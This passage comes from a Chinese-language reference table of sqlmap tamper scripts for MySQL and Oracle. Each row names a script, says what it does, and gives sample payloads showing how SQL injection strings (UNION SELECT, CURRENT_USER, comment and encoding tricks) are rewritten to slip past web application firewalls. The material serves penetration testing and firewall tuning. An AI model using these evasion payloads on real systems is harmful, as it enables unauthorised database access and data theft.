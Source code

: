 | mysql >= 5.1.13 | 8    | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |      |
| mysql >= 5.1.13 | 9    | modsecurityzeroversioned.py  | 包含了完整的查询与零版本注释                                 | ('1 AND 2>1--') '1 /*!00000AND 2>1*/--'                      |      |
| mysql >= 5.1.13 | 10   | space2mysqldash.py           | 替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’） | ('1 AND 9227=9227') '1--%0AAND--%0A9227=9227'                |      |
| mysql >= 5.1.13 | 11   | bluecoat.py                  | 代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like | ('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' |      |
| mysql >= 5.1.13 | 12   | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE <br />* Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |      |
| mysql >= 5.1.13 | 13   | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE <br />* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44<br />%20%46%52%4f%4d%20%54%41%42%4c%45 |      |
| mysql >= 5.1.13 | 14   | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |      |
| mysql >= 5.1.13 | 15   | versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),<br />IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# <br />* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),<br />IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))# |      |
| mysql >= 5.1.13 | 16   | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |      |
| mysql >= 5.1.13 | 17   | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE <br />* Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046<br />%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d<br />%u0020%u0054%u0041%u0042%u004c%u0045′ |      |
| mysql >= 5.1.13 | 18   | versionedmorekeywords.py     | 注释绕过                                                     | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),<br />IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# <br />* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,<br />115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),<br />/*!CHAR*/(58,115,114,121,58))# |      |
| mysql <5.1      | 19   | halfversionedmorekeywords.py | 关键字前加注释                                               | * Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),<br />IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), <br />NULL, NULL# AND ‘QDWa’='QDWa<br /> * Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),<br />/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),<br />/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa |      |
| mysql <5.1      | 20   | halfversionedmorekeywords.py | 当数据库为mysql时绕过防火墙，每个关键字之前添加 mysql版本评论 | 1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),<br />IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), <br />NULL, NULL# AND 'QDWa'='QDWa")<br/>2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),<br />/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),<br />/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |      |
| mysql >= 5.1.13 | 21   | space2morehash.py            | 空格替换为 #号 以及更多随机字符串 换行符                     | * Input: 1 AND 9227=9227 * Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 |      |

| 支持的数据库 | 编号 | 脚本名称                | 作用                                                | 实现方式                                                     |
| ------------ | ---- | ----------------------- | --------------------------------------------------- | ------------------------------------------------------------ |
| Oracle       | 1    | greatest.py             | 绕过过滤’>’ ,用GREATEST替换大于号。                 | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| Oracle       | 2    | apostrophenullencode.py | 绕过过滤双引号，替换字符和双引号。                  | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |
| Oracle       | 3    | between.py              | 用between替换大于号（>）                            | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |
| Oracle       | 4    | charencode.py           | url编码                                             | * Input: SELECT FIELD FROM%20TABLE <br />* Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46<br />%52%4f%4d%20%54%41%42%4c%45 |
| Oracle       | 5    | randomcase.py           | 随机大小写                                          | * Input: INSERT * Output: InsERt                             |
| Oracle       | 6    | charunicodeencode.py    | 字符串 unicode 编码                                 | * Input: SELECT FIELD%20FROM TABLE<br /> * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046<br />%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d<br />%u0020%u0054%u0041%u0042%u004c%u0045′ |
| Oracle       | 7    | space2comment.py        | Replaces space character (‘ ‘) with comments ‘/**/’ | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |

| 支持的数据库 | 编号 | 脚本名称                | 作用                                                | 实现方式                                                     |      |